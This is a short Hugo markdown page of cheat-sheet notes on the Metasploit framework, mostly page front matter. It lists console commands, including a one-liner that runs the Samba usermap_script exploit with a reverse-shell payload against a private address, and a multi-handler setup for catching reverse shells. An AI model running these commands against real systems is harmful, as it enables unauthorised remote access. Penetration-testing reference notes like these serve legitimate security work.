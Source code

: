 ```yaml
---
### The title for the content.
title : "metasploit"
### If set, this will be used for the page's menu entry (instead of the `title` attribute)
# menuTitle : "metasploit"
### The title of the page in menu will be prefixed by this HTML content
# pre : ""
### The title of the page in menu will be postfixed by this HTML content
# post : ""
### The description for the content.
description : "metasploit description."
### The datetime assigned to this page.
date : 2020-03-10T16:33:38+01:00
### Appears as the tail of the output URL. A value specified in front matter will override the segment of the URL based on the filename.
# slug : "metasploit"
### Aliases can be used to create redirects to your page from other URLs.
# aliases : [""]
### Display name of this page modifier. If set, it will be displayed in the footer.
# LastModifierDisplayName : ""
### Email of this page modifier. If set with LastModifierDisplayName, it will be displayed in the footer
# LastModifierEmail : ""
### Table of content (toc) is enabled by default. Set this parameter to true to disable it.
# disableToc : true
### Set the page as a chapter, changing the way it's displayed
# chapter : true
### Hide a menu entry by setting this to true
# hidden : true
### If true, the content will not be rendered unless the --buildDrafts flag is passed to the hugo command.
# draft : true
### Used for ordering your content in lists. Lower weight gets higher precedence. So content with lower weight will come first.
### 0 does nothing !
weight : 0
### Used to tag content. By default this is inherited using cascading from _index.md files
### Only set of you want to overwrite these inherited values.
# tags : [""]
### a map of Front Matter keys whose values are passed down to the page’s descendants unless overwritten by self or a closer ancestor’s cascade. 
cascade:
    tags: ['Metasploit']
---
```


## metasploit

### Install

### Usage

```bash
msfconsole
```

### Examples

#### init database

```bash
msfdb init
```

#### create new workspace

```bash
workspace -a [name]
```

#### switch to workspace

```bash
workspace [name]
```

#### run commands without interactive shell

```bash
msfconsole -x "use exploit/multi/samba/usermap_script;\
set RHOST 172.16.194.172;\
set PAYLOAD cmd/unix/reverse;\
set LHOST 172.16.194.163;\
run"
```

#### Multi-handler for reverse shell

```bash
use exploit/multi/handler
set LHOST 192.168.88.128
set LPORT 4444
set ExitOnSession False
```

##### netcat/bash reverse

```bash
set PAYLOAD linux/x86/shell/reverse_tcp
```

##### run in the background

```bash
run -j
```

### Also see

* [Github Project](https://github.com/rapid7/metasploit-framework)
* [metasploit-unleashed](https://www.offensive-security.com/metasploit-unleashed/)
